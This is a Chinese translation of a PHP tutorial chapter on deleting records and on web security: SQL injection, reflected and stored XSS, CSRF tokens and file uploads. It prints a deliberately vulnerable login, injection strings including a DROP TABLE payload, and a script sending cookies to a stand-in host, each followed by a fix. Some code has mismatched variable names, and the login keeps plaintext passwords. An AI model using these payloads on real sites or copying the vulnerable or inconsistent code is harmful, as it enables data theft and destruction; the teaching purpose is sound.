该列中的每个单元格将包含一个链接，允许将相应的作者 ID 传输到新的 "delete_author.php" 文件。该文件将负责处理所选作者的删除。以下是更新后的 display_authors.php 脚本代码：

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <meta name="viewport" content="width=device-width,
initial-scale=1.0"> <title>List of Authors</title> <link rel="stylesheet" href="style_tab.css"> </head> <body>
<h2>List of Authors</h2>
<?php
// Database connection
$connexion = new PDO("mysql:host=localhost;dbname=bibliotheque", "root", "");
$connexion->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
// Prepare selection query
$query = $connexion->prepare("SELECT * FROM authors");
// Execute query
$requete->execute();
// Retrieve results
$authors = $requete->fetchAll(PDO::FETCH_ASSOC);
// Display results in HTML table
if (count($authors) > 0) {
echo "<table>";
echo "<tr>
	<th>ID</th>
	<th>Name</th>
	<th>First name</th>
	<th>Email</th>
	<th>Biography</th>
	<th>Edit</th>
	<th>Delete</th>
</tr>";
foreach ($authors as $author) {
	echo "<tr>";
	echo "<td>{$author['author_id']}</td>";
	echo "<td>{$author['name']}</td>";
	echo "<td>{$author['firstname']}</td>";
	echo "<td>{$author['email']}</td>";
	echo "<td>{$author['biography']}</td>";
	echo "<td>
		<a href='form_modifier_auteur.php?id_auteur={$auteur['id_auteur']}'>
		Edit
		</a></td>";
echo "<td>
<a href='supprimer_auteur.php?id_auteur={$auteur['id_auteur']}'>
Delete
</a></td>";
echo "</tr>";
}
echo "</table>";
} else {
echo "No author found.";
}
?> </body> </html>
```

在 "display_authors.php" 脚本中，作者表中添加了一个新的 "Delete" 列。该列由 "Delete" 标头标识，定义如下代码：

<th>删除</th>

该列中的每一行都包含一个指向 "delete_author.php" 文件的链接，带有删除操作。

```php
<?php
echo "<td>
<a href='delete_author.php?author_id={$author['author_id']}'>
Delete
</a>
</td>";
```

此修改为用户提供了一个额外功能，可直接从表格中显示的列表删除特定作者。访问 "display_authors.php" 脚本时，你将得到类似下面所示的结果：


我们在 "library" 项目根目录下创建了一个名为 "delete_author.php" 的新空文件。如果你目前点击 "Delete" 列中的第一个链接，你会被带到一个空白页面，因为 "delete_author.php" 文件仍为空。但是，请注意通过 "author_id" 参数传输作者 ID 的 URL。


以下是允许删除 URL 中传递的标识符的作者的代码：

```php
<?php
// Check if the ID of the author to be deleted is present in the URL
if(isset($_GET['author_id'])) {
    // Retrieve author ID from URL
    $author_id = $_GET['author_id'];

    // Connect to database
    $connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
    $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    // Prepare deletion request
    $request = $connection->prepare("DELETE FROM authors WHERE author_id= :author_id");

    // Bind parameters
    $request->bindParam(':author_id', $author_id);

    // Execute query
    $result = $request->execute();

    // Verify successful deletion
    if ($result) {
        echo "The author has been successfully deleted.";
} else {
    echo "An error occurred during deletion";
}
} else {
    echo "No author ID specified for deletion";
}
?>
```

这段 PHP 代码执行以下操作：

- 使用 isset($_GET['author_id'])) 条件检查 URL 中是否存在要删除的作者 ID。这确保在继续删除之前已正确传输作者 ID。
- 如果作者 ID 存在于 URL 中，则从超全局变量 $_GET['author_id'] 中检索它。
- 使用适当的凭证通过 PDO 建立数据库连接。
- 准备一个删除请求，以从 "authors" 表中删除作者，其中作者 ID 与 URL 中传递的 ID 相对应的。
- 使用 bindParam() 方法将查询参数绑定到作者 ID。
- 使用 execute() 方法执行查询。


- 根据删除的结果，会向用户显示一条适当的消息，以指示操作是否成功或是否存在错误。

该脚本确保仅使用有效的作者 ID 进行删除，从而避免数据库中任何未经授权或非意外的删除。

当您单击任意 "删除" 链接时，将收到消息 "作者已成功删除。" 如果检查数据库，您会发现相应的作者确实已从 "authors" 表中删除。

当您单击 "删除" 链接且一切顺利时，将显示消息 "作者已成功删除。" 此外，如果检查 authors 表，您会注意到相应的作者确实已被删除。


### 删除确认

从数据库中删除数据有时会产生重大后果。这就是为什么在执行删除操作之前实现确认机制至关重要，以避免意外或不需要的删除。在执行最终删除之前，务必请求确认。

在永久删除作者之前添加删除确认，例如，可以使用 JavaScript 对话框来要求用户确认其操作。
在 "display_authors.php" 文件中，修改删除链接以调用显示确认对话框的 JavaScript 函数：

```
echo "<td>
	<a href='delete_author.php?author_id={$author['author_id']}' onclick='return confirmDelete()'>
	Delete
	</a></td>";
```

在显示所有作者的表格的删除链接中，我们集成了值为 'return confirmDelete()' 的 onclick 属性。当用户单击相关元素时，这会触发对 JavaScript 函数 confirmDelete() 的调用。return 关键字用于传达该函数的返回值。在此上下文中，我们将创建一个新的 JavaScript 函数，将其命名为 confirmDelete()。该函数向用户显示一个确认对话框，邀请他们确认是否真的希望执行相关操作（例如删除元素）。如果用户确认，该函数返回 true，允许单击事件正常进行并执行预期操作。另一方面，如果用户取消确认，该函数返回 false，从而取消单击操作并阻止任何进一步操作。需要注意的是，本书不侧重于 JavaScript，因此我们不会详细介绍这些概念。接下来，我们在 display_authors.php 文件的 <head> 标签之间的 <script> 标签中创建名为 "confirmDelete()" 的 JavaScript 函数。

```
<script>
function confirmDelete() {
  return confirm("Do you really want to delete this author?");
}
</script>
```

从现在起，当您单击任意作者删除链接时，将出现一个确认框，如下所示：


## 结论

在本章中，我们深入探讨了数据库中数据管理的关键方面，重点关注更新和删除过程。通过理解这些基本操作，您现在拥有维护数据完整性和相关性的强大工具。

更新数据对于保持信息的及时性和准确性至关重要。得益于我们探讨的技术，例如使用安全的 SQL 查询和参数绑定，您可以放心地修改现有数据，最大限度地降低出错或漏洞的风险。

另一方面，数据删除是一项需要审慎方法的精细任务。我们强调了在执行删除操作之前进行确认的重要性，这是避免不可逆错误和防止宝贵数据丢失的关键做法。通过实施此确认步骤，您增强了应用程序的安全性并防止意外删除。

通过将对数据操作基本原理的深入理解与安全开发实践相结合，您可以保证应用程序的稳健性和可靠性。通过使用本章介绍的技术和最佳实践，您将能够有效地管理项目数据，确保其在整个生命周期中的完整性和安全性。

## D 部分

### Web 应用程序安全

在 Web 开发的广阔领域中，如果所有开发者都同意的一件事，那就是安全性的至高无上的重要性。本书的 "Web 应用程序安全" 部分是任何希望构建不仅功能完善，而且能够抵御网络空间日益增长威胁的 PHP 开发者的必备路线图。

互联网是一个动态生态系统，不断有新的 Web 应用程序被创建，随之而来的还有新的漏洞。网络攻击变得越来越复杂，可能产生灾难性的后果，从个人数据泄露到关键服务的瘫痪。因此，作为这些数字空间的创建者和守护者，我们有责任将安全性作为其基础来进行设计。

在本部分中，我们将探讨最常见攻击的机制及应对策略。我们将讨论针对服务器端攻击的防御措施，因为数据和系统在这一层面最易受攻击。我们将谈论防止 SQL 注入、防范 XSS 和 CSRF 等，以及更多内容。

但安全性不仅仅是防止攻击。它还涉及采用整体性、分层的风险管理方法。这就是为什么我们还将介绍最佳实践，从最小权限原则到错误和日志管理、加密及安全通信。本部分将为您提供所需的工具，以便从长远来看测试、审计和维护应用程序的安全性。

应对 Web 应用程序安全性可能看起来令人望而生畏，但这是一个令人兴奋且必不可少的挑战。凭借您在此处将获得的知识，您将准备好迎难而上，确保您的应用程序尽可能安全。准备好将您对安全性的理解转化为真正的实践技能吧。

## PHP 安全性：攻击预防和风险管理

本章至关重要，因为它涉及针对直接指向 Web 应用程序核心（即服务器）的攻击的防御。服务器端安全性是 Web 开发中最关键的方面之一，因为服务器存储敏感数据并控制我们应用程序的业务逻辑。

服务器端攻击形式多样，从操纵数据库的 SQL 注入到让网站攻击用户的 XSS 攻击。如果不采取充分的安全措施，攻击者可能会破坏应用程序的完整性、窃取数据，甚至完全控制您的系统。

在本章中，我们将探讨每个 PHP 开发者都需要掌握的关键概念和防御技术。我们将解读最常见的攻击方法，了解其机制，并，尤其是，学习如何应对它们。我们将深入探讨 SQL 注入的技术细节，探索 XSS 攻击的微妙之处，并揭开 CSRF 的神秘面纱。

保护 Web 应用程序是一项复杂的任务，需要深入了解潜在威胁并始终关注细节。本章结束时，您将具备所需的知识和工具，为您的服务器构建一道堡垒，确保您的应用程序始终保持安全和可靠。

准备好加强您的防御，并将服务器端安全性作为 PHP 开发中的首要任务。

### SQL 注入攻击

SQL 注入攻击是 Web 应用程序安全中最常见、最危险的威胁之一。它们通过将恶意 SQL 代码注入未经过滤或未经过验证的用户输入中，来利用数据库管理系统（DBMS）中的安全缺陷。

这种攻击形式使攻击者能够执行未经授权且可能具有破坏性的 SQL 命令，例如删除数据、修改内容，甚至从数据库中提取机密信息。后果可能是灾难性的，从数据丢失到应用程序的完全被攻破。

在本部分中，我们将详细探讨 SQL 注入攻击的基础知识，重点关注攻击者使用的技术、对数据安全的潜在风险以及预防和缓解这些攻击的最佳实践。通过了解这些攻击的底层机制并实施适当的安全措施，开发者可以增强其 Web 应用程序应对这一无处不在的威胁的稳健性。

让我们假设，如前一节所述，我们在 Web 应用程序 "library" 中实现了一个身份验证系统。在我们的 "library" 数据库中，有一个名为 "authors" 的表，包含姓名、名、电子邮件地址、密码等信息。但是，需要注意的是，在实际中，我们可能还拥有更敏感的信息，例如支付详情。假设我们的应用程序提供一个包含 "Email" 字段和 "Password" 字段的登录表单。如果输入的电子邮件地址和密码在 authors 表中存在，则相应用户将被身份验证并可以访问机密数据。

这是该表单的代码示例，保存在名为 form_connection.php 的文件中：


```html
<!DOCTYPE html>
<html>
<head>
<title>Connection</title>
</head>
<body>
<form action="connexion.php" method="post">
<label for="email">Email:</label>
<input type="text" id="email" name="email"><br><br>
<label for="password">Password:</label>
<input type="password" id="password" name="password"><br>
<button type="submit">Log in</button>
</form>
</body>
</html>
```

以下是 `connection.php` 文件中处理连接请求的代码示例：

```php
<?php
// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");

// Retrieve user data
$email = $_POST['email'];
$password = $_POST['password'];

// Vulnerable SQL query (direct)
$sql = "SELECT * FROM authors WHERE email = '$email' AND password = '$password'";

// Execute query
$result = $connection->query($sql);

// Check results
if ($result != false && $result->rowCount() > 0) {
    echo "Login successful!";
} else {
    echo "Login failed.";
}
?>
```

如果你输入的电子邮件地址和密码存储在 "authors" 表中，你将收到“登录成功！”消息；否则，你将看到“登录失败。”

到目前为止，一切看起来都正常，但如果网站未针对 SQL 注入进行适当防护（就像上面的代码那样），攻击者可以在登录表单的两个字段中输入恶意电子邮件地址和恶意密码。例如，攻击者可以不输入有效的电子邮件地址和密码，而是输入：

```
email: ' OR '1'='1
password: ' OR '1'='1
```


这样，即使他们没有提供有效的电子邮件地址和密码，也仍然可以登录。

在这种情况下，之前代码生成的 SQL 查询将变为：

```
SELECT * FROM authors WHERE
  email = " OR '1'='1'
  AND
  password = " OR '1'='1';
```

在这种情况下，条件 '1'='1' 始终为真，这意味着查询将返回 authors 表中的所有行，从而允许攻击者访问数据库中存储的所有信息，包括敏感用户数据。

这个示例说明了简单的 SQL 注入漏洞如何危及网站安全并允许攻击者访问机密数据。这就是为什么实施强大的防护措施来防止此类攻击至关重要。

此外，如果恶意攻击者决定从数据库中删除整个表，SQL 注入可能会造成不可逆转的损害。例如，如果攻击者输入类似这样的电子邮件地址：

```
'; DROP TABLE authors; DROP TABLE books; --
```

而在“密码”字段中，他可以输入任何内容：


在这种情况下，SQL 查询将变为：

```
$sql = "SELECT * FROM authors WHERE email = "; DROP TABLE authors; DROP TABLE books; --' AND password = 'password'";
```

在这个恶意查询中，攻击者使用 SQL 注入技术依次执行多个 SQL 语句。在输入以单引号 (') 结束 SELECT 查询的恶意电子邮件地址以终止字符串后，攻击者使用 DROP TABLE 语句删除 "authors" 表，然后再次使用 DROP TABLE 删除 "books" 表。最后，攻击者使用 -- 注释掉查询的其余部分，以避免任何 SQL 错误并确保执行 DROP TABLE 语句。“密码”字段可以是任何值，因为它将被忽略。

如果你通过点击“登录”按钮提交此表单，"authors" 和 "books" 表都将从数据库中被不可逆转地删除。

考虑一下如果你的数据库包含更多敏感数据（例如财务信息、机密医疗数据或详细个人信息）时所造成的损害程度。在这种情况下，成功的 SQL 注入不仅可能危及这些数据的机密性和完整性，还可能给你的组织带来严重的法律后果。

确实，此类数据的丢失或未经授权的披露不仅可能损害你公司的声誉，还可能使你面临诉讼、罚款和其他监管制裁。此外，恢复丢失或损坏的数据可能成本高昂且耗时，且无法保证完全成功。

因此，采取主动措施保护你的 Web 应用程序免受 SQL 注入攻击和其他安全威胁至关重要。这不仅意味着采用安全开发最佳实践，还意味着实施监控和入侵检测机制，以快速检测并响应任何可疑活动。

## 如何防止和修复 SQL 注入漏洞？

为解决先前提供的代码中存在的 SQL 注入漏洞，你需要使用带绑定参数的预处理语句。以下是修复代码的方法：

```php
<?php

// Database connection

$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");

// Retrieve user data
$email = $_POST['email'];
$password = $_POST['password'];

// Secure SQL query with linked parameters
$sql = "SELECT * FROM authors WHERE email = :email AND password = :password";
$request = $connection->prepare($sql);
$request->bindParam(':email', $email);
$request->bindParam(':password', $password);

// Execute request
$request->execute();

// Check results
if ($request->rowCount() > 0) {
  echo "Connection successful!";
} else {
  echo "Login failed.";
}
?>
```

采用这种方法，$email 和 $password 变量的值作为绑定参数传递给预处理查询。这可以防止 SQL 注入攻击，因为参数值不会被解释为 SQL 代码。此外，它还可以通过防止恶意用户更改 SQL 查询的结构来提供增强的安全性。

## 跨站脚本（XSS）简介

跨站脚本（XSS）是一种常见的漏洞，允许攻击者将恶意代码（通常是 JavaScript）注入到其他用户查看的网页中。当用户提供的数据未得到适当验证或转义时，这种攻击可能会发生，这使得攻击者能够在另一用户的浏览器上执行代码，从而危及应用程序的安全性。

XSS 有三种主要类型：反射型 XSS、存储型 XSS 和基于 DOM 的 XSS。在下一节中，我们将重点介绍前两种类型。

### 反射型 XSS

在这种攻击类型中，恶意代码包含在 HTTP 请求中，然后由 Web 服务器在 HTML 响应中反射。攻击者随后可以将包含恶意代码的链接发送给受害者，受害者在点击链接时会无意中执行该代码。

想象一个带有搜索表单的网站，该表单会直接在页面上显示搜索结果。如果网站未正确转义特殊字符，攻击者可以将恶意 JavaScript 代码插入到搜索字段中。为了说明这种第一种 XSS 类型，在 "ebookphp" 目录中，让我们创建一个名为 "form_search.php" 的新文件，并在其中放置一个简单的搜索表单：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Search Form</title>
</head>
<body>
<h2>Search</h2>
<form action="search.php" method="POST">
<label for="search">Search:</label>
<input type="text" id="search" name="query">
<button type="submit">Search</button>
</form>
</body>
</html>
```

### 结果：


接下来，我们创建另一个文件 "search.php"，用于处理表单：

```php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Research results</title>
</head>
<body>
<h2>Search results</h2>
<?php
// Retrieve the search term entered in the form
$query = $_POST['query'];

// Display results
echo "<p>Results for search: <strong>$query</strong></p>";

?>
</body>
</html>
```

当你使用搜索表单（通过执行 form_search.php 文件并在搜索字段中输入例如 "Maximilien Lambert" 后提交表单）时，你将得到类似这样的结果：


## 搜索结果

### 搜索结果：Maximilien Lambert

但是，如果用户输入类似 <script>alert('XSS reflected!')</script> 的 JavaScript 代码，而网站在将搜索数据显示在页面之前未对其进行适当验证或转义，则当用户执行搜索时，恶意 JavaScript 脚本将在用户的浏览器中执行，并显示带有消息 "XSS reflected!" 的对话框。


为修复本示例中的 XSS 漏洞，我们需要在将输入数据显示在结果页面之前对其进行清理。具体做法如下：

输入数据清理：在结果页面使用 $query 变量之前，我们需要通过移除任何潜在的恶意 HTML 或 JavaScript 代码来清理数据。我们可以通过使用 **htmlspecialchars()** 函数对特殊字符进行编码来实现这一点。

以下是修复 XSS 漏洞后的修改代码：

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Research results</title>
</head>
<body>
<h2>Search results</h2>
<?php
// Retrieve the search term entered in the form
$query = htmlspecialchars($_POST['query']);

// Display results
echo "<p>Results for search: <strong>$query</strong></p>";
?>
</body>
</html>
```

应用此修改后，用户输入的搜索词将在显示到结果页面之前得到妥善清理，从而防止在用户浏览器中执行恶意脚本，以抵御 XSS 攻击。

实际上，**htmlspecialchars()** 是一个 PHP 函数，用于将某些特殊字符转换为等效的 HTML 实体。它会将 <、>、&、" 和 ' 等字符替换为其 HTML 等价字符（&lt;、&gt;、&amp;、&quot;、&#39;）。这意味着，如果用户输入类似 <script>alert('XSS!');</script> 的内容，**htmlspecialchars** 函数将把 < 和 > 标签转换为 HTML 实体（&lt; 和 &gt;），从而阻止脚本标签在浏览器中执行。

## 存储型 XSS（持久型）

存储型 XSS，也称为持久型 XSS，更为危险，因为恶意脚本存储在服务器上（例如在数据库中），随后会显示给访问受影响页面的每个用户。当 Web 应用程序存储了不安全的用户提供的数据，并在未进行适当转义或过滤的情况下将其显示在网页上时，就会发生存储型 XSS。这允许攻击者将恶意代码（例如 JavaScript 脚本）注入网页，从而危及访问该网页的用户的安全。

### 存储型 XSS 攻击示例：

想象一个在线论坛，用户可以在其中对不同话题发表评论。网站将这些评论存储在数据库中，然后在相应页面上显示它们。如果 Web 应用程序在显示评论之前未对其进行适当验证或转义，攻击者可以提交包含恶意 JavaScript 代码的评论。

例如，攻击者可以提交包含以下代码的评论：

```
<script>
fetch('https://www.example.com/my_cookies.php?cookie=' + document.cookie);
</script>
```

当此评论在网页上显示时，恶意 JavaScript 代码将在每个查看页面的用户的浏览器中执行。在此示例中，JavaScript 代码将用户的 Cookie 发送到攻击者控制的网站，从而泄露用户信息的机密性。

## 存储型 XSS 预防：

要防止 **存储型 XSS** 攻击，实施适当的安全实践至关重要，其中包括：表单输入验证和输出转义：

### 输入验证：

在将用户提供的数据存储到数据库之前，务必始终对其进行验证和过滤。这可能包括检查预期的数据格式（例如电子邮件地址），以及使用白名单仅允许某些值。

假设我们在一个网站上有一个注册表单，用户可以在其中提交评论。为了验证用户输入，我们可以使用 PHP 内置验证函数（如 filter_var()）来检查电子邮件地址是否格式正确。

PHP 中的电子邮件验证示例：

```
$email = $_POST['email'];

// Validate the email address

if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
    echo "Invalid email address";
    // Handle the error or prevent the record from being saved
} else {
    // Save the email address in the database
}
```

### 输出转义：

在将所有动态数据插入 HTML 页面之前，务必对其进行适当转义。这意味着将所有特殊字符转换为 HTML 实体，以便浏览器将其视为普通文本，而非 HTML 或 JavaScript 代码。

在我们的评论表单示例中，在将评论显示在网页上之前，我们需要转义 <、>、&、" 等特殊字符，以防止执行恶意脚本。

如果运行以下代码，将显示带有文本 "XSS!" 的 JavaScript 窗口：

```
$comment = "<script>alert('XSS!');</script>";
echo "<div>$comment</div>";
```

在 PHP 中，要转义 $comment 变量的内容，只需按以下方式使用 htmlspecialchars() 函数：

```
$comment = "<script>alert('XSS!');</script>";
// Escape special characters
$comment_echappe = htmlspecialchars($comment);
// Display the escaped comment on the web page
echo "<div>$comment_echappe</div>";
```

在此代码中，htmlspecialchars() 函数用于转义评论中的特殊字符，这意味着 <、>、&、" 等特殊字符将转换为 HTML 实体，从而在网页上显示时变得无害。最后，转义后的评论将显示在网页的 <div> 标签内。

当此代码段在网页上执行并显示时，<script> 标签不会被解释为要执行的 JavaScript 代码，而会被视为在屏幕上显示的普通文本。因此，浏览器不会显示警告对话框，而会直接显示 <script>alert('XSS!');</script>，这表明 <script> 标签及其内容（包括对 alert() 函数的调用）已作为普通文本显示在网页上。这表明 htmlspecialchars() 函数已成功转义特殊字符，防止 JavaScript 代码作为 XSS 攻击执行。

通过应用这些良好的安全实践，开发人员可以显著降低存储型 XSS 攻击的风险，从而保护其 Web 应用程序用户的安全和隐私。

## 跨站请求伪造（CSRF）

跨站请求伪造（CSRF）是一种恶意攻击，它利用经过身份验证用户的信任，在用户不知情的情况下执行未经授权的操作。该攻击通过利用 Web 浏览器在向站点发送每个请求时自动发送身份验证 Cookie 这一事实来实现，即使这些请求是从另一个站点发起的。

### CSRF 攻击的工作原理

CSRF 攻击通常通过诱导经过身份验证的用户访问包含链接或表单的恶意站点来实现，这些链接或表单旨在对目标站点执行特定操作。当用户访问恶意站点时，由后者生成的请求会自动使用用户的身份验证信息发送到目标站点，而用户毫不知情遭受了攻击。

## 实现抗 CSRF 令牌

防御 CSRF 攻击的主要措施是使用抗 CSRF 令牌，也称为同步令牌或防反弹令牌。这些令牌是与每个用户和每个会话关联的唯一随机值。它们在服务器端生成，并包含在用户发送的表单或 POST 请求中。提交请求时，服务器会检查相应的抗 CSRF 令牌是否对该特定会话和操作有效。如果令牌无效或缺失，则拒绝该请求。

### 抗 CSRF 令牌实现示例

以下是在 PHP 中生成和验证抗 CSRF 令牌的简单示例：

```
<?php

session_start();

// Generate anti-CSRF token
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// Inclusion of anti-CSRF token in a form
echo '<form action="csrf_processing.php" method="post">';
echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';
echo '<input type="submit" value="Submit">';
echo '</form>';
```


```
// Server-side validation of anti-CSRF token
if (isset($_POST['csrf_token']) && $_POST['csrf_token'] == $_SESSION['csrf_token']) {
// Processing the request
    echo "Request processed successfully";
} else {
// Reject request
    echo "Error: invalid CSRF request.";
}
?>
```

这段 PHP 代码展示了如何使用反 CSRF 令牌来防止 Web 表单上的 CSRF 攻击。以下是对代码各部分的详细说明：

**session_start():** 此函数启动一个新会话或恢复现有会话。会话用于存储会话变量，例如反 CSRF 令牌，这些变量可通过不同页面访问。

**反 CSRF 令牌生成:** 代码检查反 CSRF 令牌是否已存在于会话中。如果不存在，则使用 **random_bytes()** 函数生成一个 32 字节的随机字符串，然后使用 **bin2hex()** 将该字符串转换为十六进制表示。

**在表单中包含反 CSRF 令牌:** 随后将反 CSRF 令牌作为隐藏字段（<input type="hidden">）包含在 HTML 表单中。这样可确保在表单发送到服务器时，令牌会随表单的其他数据一起提交。

服务器端反 CSRF 令牌验证：提交表单时，反 CSRF 令牌也会随表单数据一起提交。代码检查提交的令牌是否与会话中存储的令牌匹配。如果两个令牌匹配，则请求合法，可以成功处理。否则，将显示无效 CSRF 错误。

这种反 CSRF 令牌机制确保从表单提交的每个请求都包含一个唯一且有效的令牌，通过验证请求实际来自授权网站来防止 CSRF 攻击。

为了在 PHP 中演示反 CSRF 令牌的生成和验证，我们将在 ebookphp 目录中创建两个文件：名为 form_csrf.php 的文件（包含表单）和名为 csrf_processing.php 的文件（用于处理此表单提交的数据）。以下是这两个文件的代码简单示例：

## 文件 1：form_csrf.php

```
<?php
session_start();

// Generate anti-CSRF token
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// Display form with anti-CSRF token
echo '<form action="csrf_processing.php" method="post">';
echo '<input type="text" name="name" placeholder="Name">';
echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';
echo '<input type="submit" value="Submit">';
echo '</form>';
?>
```

### 结果：


这段 PHP 代码生成反 CSRF 令牌，并显示包含该令牌的 HTML 表单。以下是逐行说明：

session_start();: 启动或恢复现有会话。

if (!isset($_SESSION['csrf_token'])) { ... }: 检查会话中是否已存在 'csrf_token' 键。如果不存在，则生成反 CSRF 令牌。

$_SESSION['csrf_token'] = bin2hex(random_bytes(32));: 使用 **random_bytes(32)** 函数获取 32 字节的随机数据，然后使用 **bin2hex()** 函数将这些字节转换为十六进制字符串，从而生成随机反 CSRF 令牌。

echo '<form action="csrf_processing.php" method="post">';: 启动 HTML 表单标签，action 指向文件 csrf_processing.php，方法为 POST。

echo '<input type="text" name="lastname" placeholder="Lastname">';: 显示用于输入姓名的文本输入字段。

echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';: 显示反 CSRF 令牌的隐藏字段，其值为会话中存储的令牌。

echo '<input type="submit" value="Submit">';: 显示用于提交表单的提交按钮。

简而言之，此代码生成一个包含反 CSRF 令牌的表单，以在提交表单时防范 CSRF 攻击。

## 文件 2：csrf_processing.php

```
<?php
session_start();

// Anti-CSRF token validation
if (isset($_POST['csrf_token']) && $_POST['csrf_token'] == $_SESSION['csrf_token']) {
// Request processed if token is valid
    echo "Request processed successfully";
} else {
// Reject the request if the token is invalid
    echo "Error: invalid CSRF request.";
}
?>
```

这段 PHP 代码验证在 form_csrf.php 中与表单一起提交的反 CSRF 令牌。以下是逐行说明：

session_start();: 启动或恢复现有会话。

if (isset($_POST['csrf_token']) && $_POST['csrf_token'] == $_SESSION['csrf_token']) { ...}: 检查与表单一起提交的反 CSRF 令牌 ($_POST['csrf_token']) 是否与会话中存储的令牌 ($_SESSION['csrf_token']) 匹配。如果两个令牌匹配，则请求有效且可以处理。

echo "Request processed successfully.": 如果令牌有效，则显示一条消息，指示请求已成功处理。

else { ... }: 否则，如果令牌不匹配，则该请求可能是 CSRF 攻击并被拒绝。

`echo "Error: invalid CSRF request.";` 显示一条错误消息，指示 CSRF 请求无效。

简而言之，此代码通过在处理请求前检查与表单一起提交的反 CSRF 令牌的真实性来确保安全性，从而防范 CSRF 攻击。如果令牌有效，则请求成功处理；否则将被拒绝。

要测试此过程，请在浏览器中访问 form_csrf.php 并提交表单。如果反 CSRF 令牌有效，您应会看到消息“Request processed successfully”。如果您尝试在没有令牌或使用无效令牌的情况下提交表单，您将看到消息“Error: invalid CSRF request.”。如果您尝试直接访问 csrf_processing.php 文件，您也会看到消息：“Error: invalid CSRF request.

## 安全文件上传

用户上传文件是许多 Web 应用程序的常见功能。但是，如果上传的文件没有得到妥善管理，则会带来潜在的安全风险。在本节中，我们将探讨与文件上传相关的风险以及保护此功能的最佳实践。

### 与文件上传相关的风险

用户文件上传的主要风险包括：

- 恶意文件注入：攻击者可以上传包含恶意代码的文件，例如 PHP 脚本、恶意软件或可执行文件，以利用服务器上的漏洞。
- 大小超限：用户可以上传大文件以耗尽存储系统或导致拒绝服务。
- 假冒文件扩展名：攻击者可以将文件重命名为具有欺骗性的扩展名，以绕过基于文件扩展名的安全检查。
- 安全漏洞：配置错误或代码漏洞可能被攻击者利用，以操纵上传的文件或访问服务器上的敏感文件。

### 文件验证和清理

以下是安全文件上传的几个最佳实践：

- **文件类型验证**：通过检查上传文件的文件扩展名和 MIME 类型来限制允许的文件类型。不要仅信任文件扩展名，因为它很容易被伪造。
- **限制文件大小**：为上传的文件设置大小限制，以防止文件过大和系统被滥用。
- **重命名上传的文件**：重命名上传的文件以赋予其唯一且安全的名称，以避免名称冲突以及运行恶意文件的风险。
- **安全存储**：将上传的文件存储在 Web 服务器根目录之外的安全目录中，以限制未经授权的用户直接访问文件。
- **防病毒扫描**：使用防病毒扫描工具检查上传的文件是否包含恶意软件或危险内容。
- **权限管理**：确保上传的文件具有适当的权限，以防止未经授权的访问和安全漏洞。

在管理文件上传时实施这些安全实践，可以有效降低与此功能相关的安全风险，并保护您的应用程序免受潜在攻击。

以下是一段用于处理文件上传并带有内置安全措施的 PHP 代码示例，您可以将其放入例如“upload_file.php”文件中以供测试。

```
<?php
// Check if the form has been submitted
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Check the file
    if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
        // Destination directory path
        $uploadDir = "uploads/";

        // File name
        $fileName = basename($_FILES["file"]["name"]);

        // Full file path on the server
        $filePath = $uploadDir . $fileName;
```


```php
// Get the file extension
$fileExtension = strtolower(pathinfo($filePath, PATHINFO_EXTENSION));
```

```php
// Check file MIME type
$fileMimeType = mime_content_type($_FILES["file"]["tmp_name"]);
$allowedMimeTypes = array('image/jpeg', 'image/png', 'application/pdf');
if (!in_array($fileMimeType, $allowedMimeTypes)) {
    echo "Error: File type not allowed.";
    return;
}
```

```php
// Check file extension
$allowedExtensions = array('jpg', 'jpeg', 'png', 'pdf');
if (!in_array($fileExtension, $allowedExtensions)) {
    echo "Error: File extension not allowed.";
    return;
}
```

```php
// Move uploaded file to destination directory
if (move_uploaded_file($_FILES["file"]["tmp_name"], $filePath)) {
    echo "File uploaded successfully.";
} else {
    echo "Error uploading file.";
}
} else {
    echo "Error: " . $_FILES["file"]["error"];
}
?>

<!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Secure File Upload</title>
</head>
<body>
    <h2>Secure File Upload</h2>
    <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post" enctype="multipart/form-data">
        <label for="file">Select a file:</label>
        <input type="file" id="file" name="file" accept="image/jpeg, image/png, application/pdf">
        <button type="submit">Upload</button>
    </form>
</body>
</html>
```

这段 PHP 代码确保了上传文件到服务器时的安全性。其详细工作原理如下：

- 1. 代码首先检查表单是否已提交，使用 $_SERVER["REQUEST_METHOD"] == "POST" 确保仅在提交表单时进行处理。
- 2. 接下来，它使用 $_FILES["file"]["error"] == UPLOAD_ERR_OK 检查文件上传过程中未出现问题。这确保了文件已成功上传，然后再进行进一步检查。
- 3. 它使用预定义目录和上传文件的名称（使用 basename($_FILES["file"]["name"])）来确定文件的目标路径。
- 4. 接下来，它使用 mime_content_type($_FILES["file"]["tmp_name"]) 检查上传文件的 MIME 类型，并将其与授权 MIME 类型列表（$allowedMimeTypes）进行比较。这确保仅允许上传指定的文件类型。

请注意，MIME（多用途互联网邮件扩展）类型是一种标准化标识符，用于指定文件的内容类型。它告诉服务器如何根据文件类型处理文件内容。例如，MIME 类型 "text/html" 表示该文件是 HTML 文档，而 "image/jpeg" 表示它是 JPEG 格式的图像。Web 服务器使用 MIME 类型来确定如何将文件内容提供给 Web 浏览器或其他应用程序。

